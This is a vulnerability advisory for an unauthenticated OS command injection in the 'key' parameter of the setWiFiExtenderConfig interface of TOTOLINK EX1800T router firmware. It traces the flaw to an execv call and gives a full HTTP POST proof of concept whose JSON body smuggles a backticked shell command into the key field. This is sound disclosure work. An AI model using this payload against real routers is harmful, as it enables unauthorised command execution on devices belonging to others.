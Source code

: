 # OS Command Injection 02 setWiFiExtenderConfig->key

## TOTOLINK EX1800T OS Command Injection Vulnerability

Vendor：Totolink

Product：EX1800T

Firmware：https://www.totolink.net/home/menu/detail/menu\_listtpl/download/id/223/ids/36.html

Affected Version：V9.1.0cu.2112\_B20220316

Class：OS Command Injection

Summary：TOTOLINK EX1800T V9.1.0cu.2112\_B20220316 is vulnerable to unauthorized arbitrary command execution in the ‘key’ parameter of the setWiFiExtenderConfig interface of the cstecgi .cgi. This vulnerability don't need to login, due to insufficient input validation and sanitization, an attacker can exploit this flaw by injecting malicious OS commands through the key field. Successful exploitation allows the attacker to execute any command.

## Vulnerability details

In the TOTOLINK EX1800T V9.1.0cu.2112_B20220316 firmware has a Command Injection Vulnerability in `setWiFiExtenderConfig`​ Interface, `key`​variable recevies the key parameter:

![image](assets/image-20250305140742-so1lefb.png)

And passes it to the `Uci_Set_Str`​ function for processing. However `Uci_Set_Str`​ function will final call `execv`​ and the parameter contains the `key`​'s value

In `Uci_Set_Str`​:

![image](assets/image-20250305134119-m70q2q6.png)

the `a4`​ parameter we can pass by `key`​, here will call `snprintf`​ function to splice the strings to `v12`​，and call `CsteSystem`​, this will call execv function and trigger OS Command Injection

![image](assets/image-20250305134440-eim7vg9.png)

## POC

```markdown
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.41.184:8885
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset:utf-8
Content-Length: 267
Origin: http://192.168.41.184:8885
Connection: close
Referer: http://192.168.41.184:8885/page/index.html?timestamp=1741068107856
Priority: u=0

{"apcliSsid":"111","apcliBssid":"000","apcliAuthMode":"111","apcliEncrypType":"111","apcliKey":"111","apcliChannel":"111","ssid":"111","ssid5g":"111","key":"111`uname -a>>../key.txt`","key5g":"111","wifiIdx":"1","token":"","topicurl":"setting/setWiFiExtenderConfig"}
```

![image](assets/image-20250305140653-503q5ic.png)

![image](assets/image-20250305140608-m4ddck2.png)

‍

